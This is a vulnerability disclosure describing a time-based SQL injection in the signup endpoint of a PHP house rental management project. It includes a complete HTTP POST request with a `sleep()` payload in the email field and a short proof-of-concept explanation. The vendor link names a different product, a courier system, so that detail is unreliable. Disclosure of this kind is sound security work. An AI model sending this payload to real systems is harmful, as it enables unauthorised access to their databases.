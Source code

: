 # Best house rental management system signup time-based SQL Injection Vulnerability

* **Exploit Title**: Best house rental management system project in php signup time-based SQL Injection Vulnerability
* **Exploit Author**: webraybtl@webray.com.cn inc
* **Vendor Homepage**: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
* **Software Link**: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+
* **Version**: Best house rental management system project in php v1.0
* **Tested on:**  PHP 7.4.33, OpenResty1.21.4.3-3-3-focal
* **CVE:**  Reported, waiting for CVE number.

## Description

Best house rental management system project in php admin_class.php `signup`​function has a time-based SQL injection Vulnerability.

#### Payload used:

```plaintext
POST /ajax.php?action=signup HTTP/1.1
Host: 192.168.56.128:8080
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/login.php
Content-Length: 66

firstname=mayuri.infospace%40gmail.com&lastname=lastname&email=123' and sleep(6) and 2='&password=admin
```

## Proof of Concept

* Construct the post request package and send it to the signup function. Successfully saw that the response time was delayed by the specified number of seconds.

​![linux-docker](assets/linux-docker-20240920095955-jseyfnl.gif)​

* Upon reviewing the source code, it was discovered that the `email`​ parameter was directly concatenated into the SQL statement.

​![image](assets/image-20240920101740-i3jki6q.png)​
